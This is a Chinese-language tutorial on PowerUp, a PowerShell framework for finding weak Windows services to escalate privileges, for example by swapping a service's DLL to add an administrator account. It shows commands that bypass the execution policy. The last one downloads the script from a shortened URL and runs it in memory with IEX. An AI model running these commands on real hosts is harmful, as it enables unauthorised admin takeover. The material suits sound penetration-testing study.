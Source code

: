 # Powershell 提权框架-Powerup

0x00 简介
=======

* * *

通常，在Windows下面我们可以通过内核漏洞来提升权限，但是，我们常常会碰到所处服务器通过内核漏洞提权是行不通的，这个时候，我们就需要通过脆弱的Windows服务提权，比如我们替换掉服务所依赖的DLL文件，当服务重启时，加载我们替换的DLL文件从而完成比如添加管理员账号的操作。或者通过常见的Mssql，Mysql等服务，通过其继承的系统权限来完成提权等等，而今天我将介绍一个非常实用的Powershell框架-Powerup，此框架可以在内核提权行不通的时候，帮助我们寻找服务器脆弱点进而通过脆弱点实现提权的目的。

0x01 使用
=======

* * *

要使用Powerup，首先需要下载此脚本:[Powerup](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)，之后加载此脚本：

```
E:> powershell.exe -nop -exec bypass
PS E:\> Import-Module .\PowerUp.psm1

```

加载完成以后，便可以使用Powerup中的所有模块了。

通过如下命令可以查看所有模块：

```
PS E:\> Get-Command -Module powerup

```

![Alt text](http://drops.javaweb.org/uploads/images/a0905c0aa9ee78bc49c0c2c8283b871c0c3f01a6.jpg)

输入可以通过tab键来自动补全，如果要查看各个模块的详细说明，可以使用"`Get-help [cmdlet] -full`"来查看，比如"`Get-Help Find-DLLHijack -full`"， 如果要将输出的结果导出到一个文件可以使用`Out-File`，如下：

```
PS E:\> Invoke-AllChecks | Out-File -Encoding ASCII checks.txt

```

> 上述命令使用了Invoke-AllChecks，脚本将会进行所有的检查

在cmd环境下，可以使用下列方式来运行该脚本：

```
E:\> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"

```

如果你想在内存加载此脚本，可以用下列方式：

```
E:\> powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://dwz.cn/2vkbfP'); Invoke-AllChecks"

```
